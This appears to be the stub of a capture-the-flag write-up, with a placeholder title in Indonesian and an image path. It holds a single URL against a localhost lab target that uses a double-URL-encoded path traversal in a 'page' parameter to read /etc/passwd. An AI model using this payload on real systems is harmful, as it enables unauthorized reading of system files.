 # Writeup <Judul Soal>

http://localhost:8080/?page=lang/%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd